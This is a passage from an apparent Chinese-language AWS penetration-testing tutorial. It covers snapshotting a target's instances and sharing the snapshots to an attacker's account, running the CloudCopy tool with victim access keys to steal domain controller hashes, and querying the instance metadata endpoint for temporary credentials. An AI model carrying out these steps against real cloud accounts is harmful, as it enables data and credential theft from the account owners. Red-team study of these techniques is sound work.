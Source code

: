 在拿到目标 AWS 控制台权限时，如果无法登录到实例，可以为目标实例打个快照，然后将快照共享给自己。

![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-03-29/1648543479-52550-image.png)


将自己的账号 ID 添加到快照共享后，在自己的 AWS 快照控制台的私有快照处就能看到目标快照了，此时就可以将其挂载到自己的实例，查看里面的数据了。

![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-03-29/1648543490-328204-image.png)

目前也已经有了自动化工具了，CloudCopy 可以通过提供的访问凭证自动实现创建实例快照、自动挂载快照等操作

不过 CloudCopy 默认只会获取实例中的域成员哈希值，也就是说前提目标实例是一个域控，不过将这个工具稍微加以修改，就可以获取到其他的文件了，下面来看下这个工具的使用。

获取 CloudCopy 工具

```bash
git clone https://github.com/Static-Flow/CloudCopy.git
cd CloudCopy
python3 CloudCopy.py
```
> 如果运行报错，一般是因为第三方库缺失，根据提示安装对应模块即可

接下来，开始进行相应的配置，输入自己的 AWS 账号 ID 及访问凭证以及目标的访问凭证

```bash
manual_cloudcopy
show_options
set attackeraccountid xxx
set attackerAccessKey xxx
set attackerSecretKey xxx
set victimAccessKey xxx
set victimSecretKey xxx
set region ap-northeast-2
```

![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-03-29/1648543533-498762-image.png)

配置好之后，就可以利用 CloudCopy 进行哈希窃取了

```bash
stealDCHashes
```

这时会提示选择实例，直接输入要窃取的实例编号即可

![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-03-29/1648543549-105567-image.png)

等待一段时间，就可以看到已经读到 DC 的哈希了。

![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-03-29/1648543558-824550-image.png)

### 2、元数据

在云场景下可以通过元数据进行临时凭证和其他信息的收集，在 AWS 下的元数据地址为：http://169.254.169.254/latest/meta-data/，直接 curl 请求该地址即可。

![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-03-29/1648543572-864070-image.png)

